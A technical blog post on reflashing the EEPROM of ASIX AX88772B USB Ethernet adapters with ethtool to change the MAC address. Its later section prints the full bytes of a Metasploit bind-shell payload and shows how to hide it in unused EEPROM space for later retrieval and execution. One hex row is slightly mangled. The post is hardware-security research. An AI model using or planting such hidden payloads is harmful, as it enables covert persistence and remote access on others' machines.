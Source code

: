 ```yaml
---
layout: posts
title:  "MAC Address Changing Revisited"
date:   2022-05-22 00:00:00 -0600
categories: eeprom nic
author: Nicholas Starke
---
```


My new friend [Gundiuc Oleg](https://twitter.com/GundiucO) reached out to me regarding [an older blog post I wrote](https://nstarke.github.io/networking/mac-address/ethtool/2019/09/21/ethtool-change-mac-address-permanently.html) about permanently changing MAC addresses on NICs.  Gundiuc was targetting the AX88772B chipset on USB ethernet adapters.  If you're interested in following along, I used [this USB Ethernet adapter](https://www.amazon.com/gp/product/B00MYT481C) for testing (no affiliate link - I don't make any money if you buy one).

The purpose of this article is to demonstrate some techniques for permanently changing MAC addresses on this chipset in more detail than the previous post.  

The first thing we need to do is identify the NIC "magic" quad-word.  The [Linux kernel driver for ASIX based NICs](https://github.com/torvalds/linux/blob/master/drivers/net/usb/asix.h#L158) tells us this value is **0xdeadbeef**. We will use this value to write data to the EEPROM on the chipset. For reference, my NIC is id'd as **enx000ec646478d**

Now, when we run **ethtool -e enx000ec646478d** we are greeted with the following output:

```
Offset		Values
------		------
0x0000:		15 8f ec 71 20 12 29 27 00 0e c6 46 47 8d 09 04 
0x0010:		60 22 71 12 19 0e 3d 04 3d 04 3d 04 3d 04 7c 05 
0x0020:		00 06 10 e0 54 24 40 12 49 27 ff ff 00 00 ff ff 
0x0030:		ff ff 0e 03 30 00 30 00 30 00 33 00 38 00 37 00 
0x0040:		12 01 00 02 ff ff 00 40 95 0b 20 77 01 00 01 02 
0x0050:		03 01 09 02 27 00 01 01 04 a0 7d 09 04 00 00 03 
0x0060:		ff ff 00 07 07 05 81 03 08 00 0b 07 05 82 02 00 
0x0070:		02 00 07 05 03 02 00 02 00 ff 04 03 30 00 ff ff 
0x0080:		12 01 00 02 ff ff 00 08 95 0b 20 77 01 00 01 02 
0x0090:		03 01 09 02 27 00 01 01 04 a0 08 09 04 00 00 03 
0x00a0:		ff ff 00 07 07 05 81 03 08 00 a0 07 05 82 02 40 
0x00b0:		00 00 07 05 03 02 40 00 00 dd ff ff aa aa bb bb 
0x00c0:		22 03 41 00 53 00 49 00 58 00 20 00 45 00 6c 00 
0x00d0:		65 00 63 00 2e 00 20 00 43 00 6f 00 72 00 70 00 
0x00e0:		2e 00 12 03 41 00 58 00 38 00 38 00 37 00 37 00 
0x00f0:		32 00 41 00 ff ff ff ff ff ff ff ff ff ff ff ff 
0x0100:		ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff 
0x0110:		ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff 
0x0120:		ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff 
0x0130:		ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff 
0x0140:		00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
0x0150:		00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
0x0160:		00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
0x0170:		00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
0x0180:		00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
0x0190:		00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
0x01a0:		00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
0x01b0:		00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
0x01c0:		00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
0x01d0:		00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
0x01e0:		00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
0x01f0:		00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
```

Now this is a nice hexdump of the EEPROM data for human consumption, but if we want the raw binary bytes, we need to run **ethtool** like so:

```
# ethtool -e enx000ec646478d raw on > eeprom.bin
```

This will give us the EEPROM dump as binary data.  We can then use our favorite hex editor to change the six byte MAC address at offset **0x8** into the EEPROM dump.  A quick note, the NIC chipset [expects data to be read](https://github.com/torvalds/linux/blob/master/drivers/net/usb/asix_common.c#L693) in **0x10** byte incremenets, so we are not able to write directly to **0x8**, we must read the first 0x10 bytes and modify the six bytes starting at 0x8.  My recommendation is to read out the full contents of the EEPROM then use a hex editor to modify just the bytes you wish to modify.  Keep in mind the full EEPROM dump [must equal](https://github.com/torvalds/linux/blob/master/drivers/net/usb/asix.h#L159) **0x200** (decimal 512).  I mention this because sometimes when I use vim in xxd mode, the conversion back to binary results in an extra newline character being appended to the end of whatever binary data I am working with.  So just as a sanity check, run **ls -l eeprom.bin** to ensure the file size is **512**.

After we have made our modifications to eeprom.bin, we need to flash those changes to the chipset.  The command to do so in this instance is:

```
# ethtool -E enx000ec646478d magic 0xdeadbeef < eeprom.bin
```

# Hiding payloads

There was a [great presentation](https://www.youtube.com/watch?v=KDo3CExd8Ns) at DEFCON 28 by Jesse Michael and Mickey Shkatov about hiding binary payloads in firmware.  This firmware chipset can be used to accomplish this goal.  Take for example the output of the following command:

```
$ msfvenom --payload linux/x86/shell/bind_tcp | xxd
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 111 bytes

00000000: 6a7d 5899 b207 b900 1000 0089 e366 81e3  j}X..........f..
00000010: 00f0 cd80 31db f7e3 5343 536a 0289 e1b0  ....1...SCSj....
00000020: 66cd 8051 6a04 546a 026a 0150 9789 e16a  f..Qj.Tj.j.P...j
00000030: 0e5b 6a66 58cd 8089 f883 c414 595b 5e52  .[jfX.......Y[^R
00000040: 6802 0011 5c6a 1051 5089 e16a 6658 cd80  h...\j.QP..jfX..
00000050: d1e3 b066 cd80 5743 b066 8951 04cd 8093  ...f..WC.f.Q....
00000060: b60c b003 cd80 87df 5bb0 06cd 80ff e1    ........[......
```

This is a 111 byte payload. We can make the last byte a NOP (0x90) in order to conform to the 16-byte alignment constraint.  That would result in:

```
00000000: 6a7d 5899 b207 b900 1000 0089 e366 81e3  j}X..........f..
00000010: 00f0 cd80 31db f7e3 5343 536a 0289 e1b0  ....1...SCSj....
00000020: 66cd 8051 6a04 546a 026a 0150 9789 e16a  f..Qj.Tj.j.P...j
00000030: 0e5b 6a66 58cd 8089 f883 c414 595b 5e52  .[jfX.......Y[^R
00000040: 6802 0011 5c6a 1051 5089 e16a 6658 cd80  h...\j.QP..jfX..
00000050: d1e3 b066 cd80 5743 b066 8951 04cd 8093  ...f..WC.f.Q....
00000060: b60c b003 cd80 87df 5bb0 06cd 80ff e190  ........[.......
```

 From the EEPROM dump, all bytes past 0x140 (320 decimal) are null bytes. We could write our msfvenom payload to offset 0x190.  Then the EEPROM dump would look like this:

 ```
0x0000:		15 8f ec 71 20 12 29 27 00 0e c6 46 47 8d 09 04 
0x0010:		60 22 71 12 19 0e 3d 04 3d 04 3d 04 3d 04 7c 05 
0x0020:		00 06 10 e0 54 24 40 12 49 27 ff ff 00 00 ff ff 
0x0030:		ff ff 0e 03 30 00 30 00 30 00 33 00 38 00 37 00 
0x0040:		12 01 00 02 ff ff 00 40 95 0b 20 77 01 00 01 02 
0x0050:		03 01 09 02 27 00 01 01 04 a0 7d 09 04 00 00 03 
0x0060:		ff ff 00 07 07 05 81 03 08 00 0b 07 05 82 02 00 
0x0070:		02 00 07 05 03 02 00 02 00 ff 04 03 30 00 ff ff 
0x0080:		12 01 00 02 ff ff 00 08 95 0b 20 77 01 00 01 02 
0x0090:		03 01 09 02 27 00 01 01 04 a0 08 09 04 00 00 03 
0x00a0:		ff ff 00 07 07 05 81 03 08 00 a0 07 05 82 02 40 
0x00b0:		00 00 07 05 03 02 40 00 00 dd ff ff aa aa bb bb 
0x00c0:		22 03 41 00 53 00 49 00 58 00 20 00 45 00 6c 00 
0x00d0:		65 00 63 00 2e 00 20 00 43 00 6f 00 72 00 70 00 
0x00e0:		2e 00 12 03 41 00 58 00 38 00 38 00 37 00 37 00 
0x00f0:		32 00 41 00 ff ff ff ff ff ff ff ff ff ff ff ff 
0x0100:		ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff 
0x0110:		ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff 
0x0120:		ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff 
0x0130:		ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff 
0x0140:		00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
0x0150:		00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
0x0160:		00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
0x0170:		00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
0x0180:		00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
0x0190:		6a 7d 58 99 b2 07 b9 00 10 00 00 89 e3 66 81 e3 
0x01a0:		00 f0 cd 80 31 db f7 e3 53 43 53 6a 02 89 e1 b0 
0x01b0:		66 cd 80 51 6a 04 54 6a 02 6a 01 50 97 89 e1 6a 
0x01c0:		0e 5b 6a 66 58 cd 80 89 f8 83 c4 14 59 5b 5e 52 
0x01d0:		68 02 00 11 5c 6a 10 51 50 89 e1 6a 66 58 cd 80 
0x01e0:		d1e 3 b0 66 cd 80 57 43 b0 66 89 51 04 cd 80 93 
0x01f0:		b6 0c b0 03 cd 80 87 df 5b b0 06 cd 80 ff e1 90
 ```

 At this point, after this data is flashed to the NIC EEPROM, it is possible to use **ethtool** to retrieve the msfvenom payload and then execute it.  For this particular chipset, we have 192 (0xc0) bytes to store a payload.  That is from EEPROM offset 0x140 to the end of the EEPROM data at 0x200.  